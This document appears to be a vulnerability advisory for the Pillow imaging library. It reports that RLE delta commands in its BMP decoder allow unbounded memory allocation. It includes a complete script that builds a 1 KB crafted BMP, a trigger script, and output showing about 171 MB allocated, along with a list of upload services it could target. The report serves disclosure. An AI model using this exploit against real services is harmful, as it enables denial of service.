

# Pillow BMP RLE Delta Asymmetric Memory Consumption via a Tiny Crafted BMP File

## Description

The **BmpRleDecoder** class in `/src/PIL/BmpImagePlugin.py` is vulnerable to unchecked memory allocation due to the complete absence of bounds checking on RLE delta command offset calculations. The decoder performs memory allocation with attacker-controlled dimensions (`right + up * width`) without validating that the allocation stays within reasonable bounds, resulting in **massive memory exhaustion** (163,000x amplification) which if abused can lead to denial of service. The vulnerability **bypasses Pillow's MAX_IMAGE_PIXELS decompression bomb protection** as the protection only validates image dimensions but not RLE operation allocations. The attack can be performed remotely via any image upload endpoint that processes BMP files using Pillow.

## Details

*   **Vendor**: Python Pillow

*   **Product**: Pillow (PIL Fork)

*   **Affected Version**: 12.2.0.dev0 (and all versions with BMP RLE support)

*   **Source Repository**: https://github.com/python-pillow/Pillow

*   **Component**: `/src/PIL/BmpImagePlugin.py` (BmpRleDecoder class, RLE decoder for BMP images)

*   **Vulnerability Type**:
    * Memory Allocation with Excessive Size Value (CWE-789)
    * Improper Input Validation (CWE-20)

*   **CVE ID**: Not Assigned

*   **Reported by**: Charbel

## PoC

The vulnerability exists in the RLE delta command processing with no validation that memory allocation remains within safe bounds for the declared image size. Which means that one tiny file (easy to upload) can lead to a much bigger chunk of memory being allocated and thus memory exhaustion if abused.

### Vulnerable Code (`src/PIL/BmpImagePlugin.py:367-376`)

```python
elif byte[0] == 2:
    # delta
    bytes_read = self.fd.read(2)
    if len(bytes_read) < 2:
        break
    right, up = self.fd.read(2) # LINE 369: Read to check length
    data += b"\x00" * (right + up * self.state.xsize)  # LINE 373: NO BOUNDS CHECK
    x = len(data) % self.state.xsize
```

**Issues**:
1. **No bounds checking** on `right + up * self.state.xsize` calculation
3. **Bypasses MAX_IMAGE_PIXELS** protection (only checks dimensions, not RLE allocations)
4. **No per-operation limits** on memory allocation size
5. **xsize (width) acts as multiplier** - large width values cause massive allocations compared to the file's real size.

### Exploit

Generate a malicious BMP file (1 KB) that declares 178,000 × 1,000 pixels (just under the 2×MAX_IMAGE_PIXELS hard limit) and tricks Pillow to use RLE delta commands to allocate 175 MB of memory (163,000x amplification).

```python
#!/usr/bin/env python3
import struct

def create_malicious_bmp(filename="exploit.bmp"):
    """
    Create a malicious BMP file
    """
    # 178,000 × 1,000 = 178M pixels (just under 2x MAX_IMAGE_PIXELS limit)
    width = 178_000
    height = 1_000
    bpp = 8              # 8-bit palette mode
    compression = 1      # BI_RLE8 compression

    # Calculate expected memory allocation
    dest_length = width * height
    per_delta = 255 + (255 * width)  # Delta allocation: right + up * width
    total_deltas = 4
    expected_alloc = per_delta * total_deltas

    # BMP File Header (14 bytes)
    file_header = b"BM"
    pixel_offset = 14 + 40 + (256 * 4)  # File header + Info header + Palette
    file_size = pixel_offset + 100
    file_header += struct.pack("<I", file_size)      # File size
    file_header += struct.pack("<H", 0)              # Reserved
    file_header += struct.pack("<H", 0)              # Reserved
    file_header += struct.pack("<I", pixel_offset)   # Pixel data offset

    # BMP Info Header (40 bytes - BITMAPINFOHEADER)
    info_header = struct.pack("<I", 40)              # Header size
    info_header += struct.pack("<i", width)          # Width
    info_header += struct.pack("<i", height)         # Height
    info_header += struct.pack("<H", 1)              # Planes
    info_header += struct.pack("<H", bpp)            # Bits per pixel
    info_header += struct.pack("<I", compression)    # Compression (BI_RLE8)
    info_header += struct.pack("<I", 0)              # Image size (can be 0 for RLE)
    info_header += struct.pack("<i", 0)              # X pixels per meter
    info_header += struct.pack("<i", 0)              # Y pixels per meter
    info_header += struct.pack("<I", 256)            # Colors used
    info_header += struct.pack("<I", 0)              # Important colors

    # Color Palette (256 colors × 4 bytes)
    palette = b"".join(
        struct.pack("<BBBB", i, i, i, 0)
        for i in range(256)
    )

    # RLE8 Payload - The malicious part
    # Each delta command allocates: 255 + (255 * 178,000) = 43.3 MB
    # So each delta needs 6 bytes total:
    #   0x00 0x02     - Delta opcode
    #   0xFF 0xFF     - Dummy bytes due to double read
    #   0xFF 0xFF     - right=255, up=255 (actual values used)

    rle_data = bytearray()

    for _ in range(total_deltas):
        rle_data += bytes([
            0x00, 0x02,   # Delta escape + delta opcode
            0xFF, 0xFF,   # Dummy bytes (bug causes double-read)
            0xFF, 0xFF    # right=255, up=255
        ])

    # End of bitmap marker
    rle_data += bytes([0x00, 0x01])

    # Write the malicious BMP
    with open(filename, "wb") as f:
        f.write(file_header)
        f.write(info_header)
        f.write(palette)
        f.write(rle_data)

    file_size_actual = len(file_header) + len(info_header) + len(palette) + len(rle_data)

    # Print exploit statistics
    print(f"{'='*70}")
    print(f"BMP RLE Delta Vulnerability - PoC Generated")
    print(f"{'='*70}")
    print(f"Output file: {filename}")
    print(f"File size: {file_size_actual:,} bytes ({file_size_actual / 1024:.2f} KB)")
    print(f"\\nImage Properties:")
    print(f"  Dimensions: {width:,} × {height:,} pixels")
    print(f"  Declared size: {dest_length:,} pixels ({dest_length / (1024**2):.2f} MB)")
    print(f"  Decompression bomb status: ⚠️  WARNING (bypasses hard limit)")
    print(f"\\nExploit Details:")
    print(f"  Delta commands: {total_deltas}")
    print(f"  Allocation per delta: {per_delta:,} bytes ({per_delta / (1024**2):.2f} MB)")
    print(f"  Total expected allocation: {expected_alloc:,} bytes ({expected_alloc / (1024**2):.2f} MB)")
    print(f"\\nAmplification Factor: {(expected_alloc / file_size_actual):,.0f}x")
    print(f"{'='*70}")
    print(f"\\nTo trigger the vulnerability:")
    print(f"  python3 verify.py")
    print(f"{'='*70}\\n")


if __name__ == "__main__":
    create_malicious_bmp()
```

### Triggering the vulnerability

#### Verification Script
```python
#!/usr/bin/env python3
import sys
import os
import time
import traceback

from PIL import Image

def get_memory_mb():
    """Get current process memory usage in MB."""
    try:
        import psutil
        process = psutil.Process()
        return process.memory_info().rss / 1024 / 1024
    except ImportError:
        return None


def verify_vulnerability(filename="exploit.bmp"):
    """Load the malicious BMP and verify the vulnerability."""

    if not os.path.exists(filename):
        print(f"[!] Error: {filename} not found. Run exploit.py first.")
        return

    print(f"{'='*70}")
    print(f"BMP RLE Delta Vulnerability - Verification")
    print(f"{'='*70}")
    print(f"Target file: {filename}")
    print(f"File size: {os.path.getsize(filename):,} bytes\\n")

    # Note: Decompression bomb protection is ENABLED (default)
    max_pixels = Image.MAX_IMAGE_PIXELS
    print(f"MAX_IMAGE_PIXELS: {max_pixels:,} pixels (protection ENABLED)")
    print(f"Hard limit: {max_pixels * 2:,} pixels\\n")

    mem_start = get_memory_mb()
    if mem_start:
        print(f"Initial memory: {mem_start:.2f} MB\\n")

    try:
        # Open the malicious BMP
        print("[*] Opening BMP file...")
        img = Image.open(filename)

        width, height = img.size
        print(f"[+] File opened successfully")
        print(f"    Image size: {width:,} × {height:,} pixels")
        print(f"    Image mode: {img.mode}")
        print(f"    Total pixels: {width * height:,}")

        # Check decompression bomb status
        if width * height > max_pixels:
            print(f"    Status: ⚠️  Exceeds soft limit (warning issued)")
        else:
            print(f"    Status: ✓ Under soft limit")

        mem_before = get_memory_mb()
        if mem_before:
            print(f"\\n[*] Memory before load(): {mem_before:.2f} MB")

        # Trigger the vulnerable RLE decoder
        print("[*] Triggering RLE decoder (this will allocate memory)...")
        start_time = time.time()

        img.load()

        elapsed = time.time() - start_time
        mem_after = get_memory_mb()

        print(f"[+] Image loaded successfully in {elapsed:.2f} seconds")

        if mem_start and mem_after:
            mem_increase = mem_after - mem_start
            amplification = (mem_increase * 1024 * 1024) / os.path.getsize(filename)

            print(f"\\n{'='*70}")
            print(f"VULNERABILITY CONFIRMED")
            print(f"{'='*70}")
            print(f"Memory consumption:")
            print(f"  Before: {mem_start:.2f} MB")
            print(f"  After:  {mem_after:.2f} MB")
            print(f"  Increase: +{mem_increase:.2f} MB")
            print(f"\\nAmplification: {amplification:,.0f}x")
            print(f"{'='*70}")
        else:
            print(f"\\n[+] Load completed (install psutil for memory monitoring)")

    except Image.DecompressionBombError as e:
        print(f"\\n[X] BLOCKED by decompression bomb protection")
        print(f"[X] Error: {e}")
        print(f"\\nNote: This shouldn't happen with our configuration.")
        print(f"The exploit is designed to bypass the hard limit.")

    except MemoryError as e:
        mem_crash = get_memory_mb()
        print(f"\\n[!] MEMORY ERROR - System ran out of memory!")
        print(f"[!] Error: {e}")
        if mem_crash:
            print(f"[!] Memory at crash: {mem_crash:.2f} MB")
        print(f"\\nThe vulnerability caused memory exhaustion.")

    except Exception as e:
        mem_error = get_memory_mb()
        print(f"\\n[!] Unexpected error: {type(e).__name__}")
        print(f"[!] Message: {e}")
        if mem_error:
            print(f"[!] Memory at error: {mem_error:.2f} MB")
        traceback.print_exc()

    print(f"\\n{'='*70}\\n")


if __name__ == "__main__":
    verify_vulnerability()
```

#### Testing Steps

```bash
# Generate the malicious BMP
python3 exploit.py

# Verify the vulnerability (requires psutil for memory monitoring)
python3 verify.py
```

**Output**

```
======================================================================
BMP RLE Delta Vulnerability - PoC Generated
======================================================================
Output file: exploit.bmp
File size: 1,104 bytes (1.08 KB)

Image Properties:
  Dimensions: 178,000 × 1,000 pixels
  Declared size: 178,000,000 pixels (169.75 MB)
  Decompression bomb status: ⚠️  WARNING (bypasses hard limit)

Exploit Details:
  Delta commands: 4
  Allocation per delta: 45,390,255 bytes (43.29 MB)
  Total expected allocation: 181,561,020 bytes (173.15 MB)

Amplification Factor: 164,457x
======================================================================

To trigger the vulnerability:
  python3 verify.py
======================================================================

======================================================================
BMP RLE Delta Vulnerability - Verification
======================================================================
Target file: exploit.bmp
File size: 1,104 bytes

MAX_IMAGE_PIXELS: 89,478,485 pixels (protection ENABLED)
Hard limit: 178,956,970 pixels

Initial memory: 18.44 MB

[*] Opening BMP file...
[+] File opened successfully
    Image size: 178,000 × 1,000 pixels
    Image mode: L
    Total pixels: 178,000,000
    Status: ⚠️  Exceeds soft limit (warning issued)

[*] Memory before load(): 20.24 MB
[*] Triggering RLE decoder (this will allocate memory)...
[+] Image loaded successfully in 0.12 seconds

======================================================================
VULNERABILITY CONFIRMED
======================================================================
Memory consumption:
  Before: 18.44 MB
  After:  190.11 MB
  Increase: +171.66 MB

Amplification: 163,046x
======================================================================
```



## Potential Impact

Running applications that process user-uploaded BMP images with Pillow will experience severe memory exhaustion leading to denial of service. The vulnerability bypasses decompression bomb protection and can be triggered by a 1.08 KB file causing ~175 MB memory allocation per file.

**Impact Chain:**
```python
# Web application example
@app.route('/upload', methods=['POST'])
def upload_image():
    file = request.files['image']
    img = Image.open(file)        # ← Bypasses bomb protection with warning
    img.thumbnail((200, 200))     # ← Triggers .load(), allocates 171 MB
    ...
    # ← May never reach here due to crash
```

**Downstream Effects:**
1. **Immediate Impact**: Single upload → 171 MB memory allocation
2. **Concurrent Attacks**: 6 uploads → 1 GB memory consumed → service crash
3. **Sustained Attack**: Repeated uploads → memory pressure → system instability
4. **Amplification**: 1 KB bandwidth → 171 MB memory (163,046x amplification)
5. **Bypass**: Decompression bomb protection issues warning but does not block

**Real-World Scenarios:**
- Image upload services (social media, forums, file sharing)
- Profile picture uploads
- Document conversion services
- Thumbnail generation APIs
- Content management systems
- Email attachments processing

## Why is this dangerous
This is only dangerous because PIllow is widely deployed and this vulnerability opens Pillow up to asymmetric resource consumption. The attack can be performed with very low resources on the attacker's side and if abused can trick Pillow into allocating very large chunks of memory triggered by very tiny BMP image uploads. 